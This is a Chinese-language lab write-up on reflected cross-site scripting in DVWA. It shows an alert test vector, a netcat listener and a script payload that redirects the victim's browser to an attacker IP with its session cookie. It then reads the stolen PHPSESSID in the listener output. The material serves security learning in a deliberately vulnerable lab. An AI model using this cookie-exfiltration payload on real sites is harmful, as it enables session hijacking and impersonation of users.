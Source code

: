 ## 一、跨站脚本技术XSS(Cross-Site Scripting)
- 之前的攻击目标是服务器，而XSS目标是浏览网站的普通人
- 通过XSS可以偷到登陆凭证(Cookies)、伪装成他们进行操作、导向假网站
## 二、攻击流程
### 2.1漏洞侦测
- DVWA Security的安全级别设置为low
- XSS(Reflected)功能模块，提交经典的XSS测试向量:`<script>alert('XSS')</script>`，浏览器呈现一个内容为"XSS"的警告对话框，说明服务器未对输入进行充分过滤，而是直接嵌入HTML响应中。浏览器解析到`<script>`元素后，即刻执行内部的JavaScript代码。
### 2.2攻击环境配置与Payload(有效载荷)构建
- Kali Linux终端，执行`nc -lvp 1234`启动该监听服务，`nc`执行`netcat`，`-l`启动监听模式，`-v`启动详细输出模式，`-p 1234`指定监听的端口号为1234
- `<script>document.location='http://192.168.174.129:1234/?cookie=' + document.cookie;</script>`
- Payload逻辑：强制浏览器重定向至一个新的URL，该URL指向攻击机的IP地址及监听端口1234，通过`document.cookie`获取的Cookie字符串，将作为查询参数(`?cookie=`)附加到URL的末尾
### 2.3结果观测
- 浏览器端：页面发生一次快速重定向，并可能由于`netcat`服务无法提供有效的HTTP响应而显示连接错误
- 攻击机终端：切换至运行`netcat`的终端窗口，可以观测到一条新的HTTP GET请求，包含了被盗取的Cookie信息
- 结论：`PHPSESSID=...`部分的成功接收，标志着用户的会话Cooie已被成功窃取
      <img width="666" height="244" alt="image" src="https://github.com/user-attachments/assets/d90833f9-bd13-401d-a5fe-a816462eb56f" />  
## 三、总结
- `connect to [192.168.174.129] from ...`说明一个连接请求从受害者发送到了netcat
- `GET /?cookie=security=low;%20PHPSESSID=129f6e5a4c8cbd494411abc173bb2512 HTTP/1.1`，`GET /?cookie=...`是构造的Payload`document.location=...`产生的效果，`PHPSESSID=...`是用户的**会话凭证**，拥有此，攻击者可在不知道用户名和密码的情况下，冒充此用户登录网站
